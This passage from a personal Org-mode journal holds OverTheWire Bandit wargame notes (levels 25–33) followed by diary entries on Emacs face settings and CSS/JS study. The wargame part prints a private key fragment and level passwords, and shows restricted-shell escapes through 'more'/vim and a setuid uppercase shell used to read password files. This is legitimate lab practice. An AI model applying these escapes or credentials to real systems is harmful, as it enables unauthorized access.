e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit26
#+end_src

After preparations above, used it to ~ssh~ as bandit26.

It connects, but closes right away:

#+begin_example
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
#+end_example

I believe I must find out about what the shell for bandit26 is.

~.bash_logout~ has some "privacy-increasing" measures...

#+begin_example
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
#+end_example

#+begin_example
bandit25@bandit:/home/bandit26$ /usr/bin/clear_console 
clear_console: terminal is not a console
#+end_example

Meh.

I could find out bandit26's login shell by looking at the default place: ~/etc/passwd~.

#+begin_example
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

The contents of ~/usr/bin/showtext~ are:

#+begin_example
bandit25@bandit:~$ cat /usr/bin/showtext 
----------------------------------------------------------------------
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
#+end_example

Se eu peço para o ssh executar um comando ao final, tipo

ssh {host port user id_rsa, etc} /bin/bash

ele fica travado.

Acho que é isso que o enunciado se refere quando diz

#+begin_quote
Find out what it is, how it works and how to break out of it.
#+end_quote

1. What it is
   1. ~/usr/bin/showtext~
2. How it works
   1. It opens a text file, shows its content on the screen, and quits.
      1. It uses ~exec~, and this means
         1. This prevents access to the shell


O ~exec~ roda o comando por cima do /usr/bin/showtext.

O exec é um shell buit-in:

#+begin_example
(base) rafa@bach:~$ type -a exec
exec is a shell builtin
#+end_example

#+begin_example
(base) rafa@bach:~$ help exec
exec: exec [-cl] [-a name] [command [argument ...]] [redirection ...]
    Replace the shell with the given command.
    
    Execute COMMAND, replacing this shell with the specified program.
    ARGUMENTS become the arguments to COMMAND.  If COMMAND is not specified,
    any redirections take effect in the current shell.
    
    Options:
      -a name   pass NAME as the zeroth argument to COMMAND
      -c        execute COMMAND with an empty environment
      -l        place a dash in the zeroth argument to COMMAND
    
    If the command cannot be executed, a non-interactive shell exits, unless
    the shell option `execfail' is set.
    
    Exit Status:
    Returns success unless COMMAND is not found or a redirection error occurs.
(base) rafa@bach:~$ 
#+end_example

According to [[https://serverfault.com/a/823466][this answer on Server Fault]], all commands executed via ssh are actually executed by the login shell.
This would mean

ssh {connection stuff} ls

ssh {...} /usr/bin/showtext ls.

But /usr/bin/showtext does not deal with arguments in any way.
So I don't see how this could help me.


more accepts commands like vi

in vi, they come via stderr


this works for vi:

https://vi.stackexchange.com/a/44475
vim - <<< "Hello, World!" 2<<< ":w! file.txt | :q"

É pra mandar um Ctrl+Z enquanto o ~more~ ainda tá rodando.
Isso vai me dar o shell que o invocou.
Short-lived program
Difícil na mão.
Usar um programa: expect.
Precisa de um script.

[[file:landit26.expect][bandit26.expect]] ≡

#+begin_src expect
#!/usr/bin/expect -f
# bandit26-hit.exp — spawn ssh and immediately send a control byte, then hand control to you.

# === Configuration: change these to match your local SSH command ===
set timeout 10
set ssh_cmd {ssh -t -p 2220 -l bandit26 -i ~/.ssh/id_rsa_overthewire.org-bandit26 bandit.labs.overthewire.org}

# === Control character to send ===
# \032 is Ctrl+Z (ASCII SUB). Change to \003 for Ctrl+C, etc.
set ctrl_byte "\003"

# Spawn the SSH client
spawn -noecho {*}$ssh_cmd

# Option 1: wait for any data from the remote side, then immediately send the control char
# (this triggers the key while the pager is running)
expect {
    -re {.+} { send -- $ctrl_byte }
    timeout { send -- $ctrl_byte }   ;# fallback: send anyway if nothing seen within timeout
}

# Hand control to your terminal interactively
interact
#+end_src

#+begin_src shell
chmod +x bandit26.expect
#+end_src

#+RESULTS:



janela pequena força modo interativo do more

v abre o vim

rodar ocmandos no vim

rodei um open do pass if

:e /etc/band.../band..26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Essa senha deixa logar, mas cai no mesmo problema.

:set shell=/bin/bash

:shell

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
*** 27 -> 28

git repo at

ssh://bandit27-git@localhost/home/bandit27-git/repo
via the port 2220

i have to clone this repo

**** clone logged in the server

from the manpage, the format for ssh urls is

#+begin_quote
ssh://[user@]host.xz[:port]/~[user]/path/to/repo.git/
#+end_quote

translating to the address:

git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

didn't allow the clone (no write permission)

going local

**** clone from my local machine

git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo

password was inside README

Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
*** 28 -> 29

ssh://bandit28-git@localhost/home/bandit28-git/repo via the port 2220.

git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo

tava no git log

sshpass -p 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7 ssh bandit.labs.overthewire.org -p 2220 -l bandit29
*** 29 -> 30
:PROPERTIES:
:header-args: :session *29*
:END:

**** Instructions

#+begin_quote
Level Goal

There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo via the port 2220.
The password for the user bandit29-git is the same as for the user bandit29.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

**** Clone the repository

Basic clone structure.

#+begin_src shell
export SERVER=bandit29-git@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/bandit29-git/repo
export REMOTE_REPO=ssh://$SERVER:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/bandit29-git-repo
export REPO=$LOCAL_FOLDER
#+end_src

Essential in this problem: mirror the remote repository.
This way we get all the branches.
The password turned out to be on a branch ~dev~, that was not fetched with the normal ~git clone~ command.

#+begin_src shell
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo /home/rafa/hack/overthewire.org/bandit29-git-repo

qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL
*** Bandit Level 30 → Level 31

#+begin_quote
Level Goal

There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo via the port 2220.
The password for the user bandit30-git is the same as for the user bandit30.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit30-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo /home/rafa/hack/overthewire.org/bandit30-git-repo

There was a ~secret~ tag.

Fetched it.
Couldn't ~checkout~ to it, nor hard reset to it.
Then I looked inside it.

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit30-git-repo$ git cat-file -p secret
fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
#+end_example

fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
*** Bandit Level 31 → Level 32

#+begin_quote
Level Goal

There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo via the port 2220.
The password for the user bandit31-git is the same as for the user bandit31.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo-mirror
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo-mirror

#+begin_src shell
PASSWORD=fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit31
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy ssh bandit.labs.overthewire.org -p 2220 -l bandit31

**** Investigating bandit31's home folder

#+begin_example
bandit31@bandit:~$ ll
total 24
drwxr-xr-x   2 root root 4096 Aug 15 13:16 ./
drwxr-xr-x 150 root root 4096 Aug 15 13:18 ../
-rw-r--r--   1 root root  220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root 3851 Aug 15 13:09 .bashrc
-rwxr-xr-x   1 root root   59 Aug 15 13:16 .gitconfig*
-rw-r--r--   1 root root  807 Mar 31  2024 .profile
bandit31@bandit:~$ cat .gitconfig 
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_example

#+begin_src shell
git ls-remote
#+end_src

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit31-git-repo-mirror$ git ls-remote --heads --tags --refs --symref
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
From ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
508f78be4568c9cf050249a441800ad36c1fe5bd        refs/heads/master
#+end_example

**** I have to push a file to the remote repository

#+begin_example
2 files changed, 8 insertions(+)
.gitignore | 1 +
README.md  | 7 +++++++

new file   .gitignore
@@ -0,0 +1 @@
+*.txt
new file   README.md
@@ -0,0 +1,7 @@
+This time your task is to push a file to the remote repository.
+
+Details:
+    File name: key.txt
+    Content: 'May I come in?'
+    Branch: master
+
#+end_example

I want to
1. Modify .gitignore and remove ~*.txt~


Clone without mirror.

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo

I need to add the user info I found on 31's home folder .gitconfig:
Add it to the repo's .git/config file.

#+begin_src gitconfig /home/rafa/hack/overthewire.org/bandit31-git-repo/.git/.gitconfig
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_src

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (3/3), 301 bytes | 301.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

>>>> ! [remote rejected] master -> master (pre-receive hook declined)

What hook is that?
Is it in the folder ~hooks~?
Only sample hooks there.

Is there something on the server?
1. I looked


fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (4/4), 361 bytes | 361.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
remote: Well done! Here is the password for the next level:        
remote: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K         
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
*** Bandit Level 32 → Level 33

#+begin_quote
Level Goal

After all this git stuff, it’s time for another escape. Good luck!
Commands you may need to solve this level

sh, man
#+end_quote

#+begin_src shell
PASSWORD=3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit32
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K ssh bandit.labs.overthewire.org -p 2220 -l bandit32

**** Control keys

| Key | Result                   |
|-----+--------------------------|
| C-D | quit                     |
| C-Z | no echo, but do not quit |
|     |                          |

#+begin_example

>> a
sh: 1: A: Permission denied
>> \
>> $
sh: 1: $: Permission denied
>> 
>> !
sh: 2: Syntax error: newline unexpected
>> !
sh: 2: Syntax error: newline unexpected
>> " 
sh: 2: Syntax error: Unterminated quoted string
>> "bash"
sh: 1: BASH: Permission denied

#+end_example

**** UPPERCASE SHELL: environment variables?

**** The uppershell executable has setgid for bandit33

#+begin_example
bandit31@bandit:/home/bandit32$ ll
total 36
drwxr-xr-x   2 root     root      4096 Aug 15 13:16 ./
drwxr-xr-x 150 root     root      4096 Aug 15 13:18 ../
-rw-r--r--   1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root      3851 Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root       807 Mar 31  2024 .profile
-rwsr-x---   1 bandit33 bandit32 15140 Aug 15 13:16 uppershell*
               ^^^^^^^^
#+end_example

**** manpage sh: ${0} gives name of shell

It was executing the expansions.
It executed that, giving me an instance of ~sh~.

#+begin_example
WELCOME TO THE UPPERCASE SHELL
>> ${$}
sh: 1: 625083: Permission denied
>> ${0}
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
#+end_example

tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
*** Bandit Level 33 → Level 34

#+begin_quote
At this moment, level 34 does not exist yet.
#+end_quote

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

#+begin_src css
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

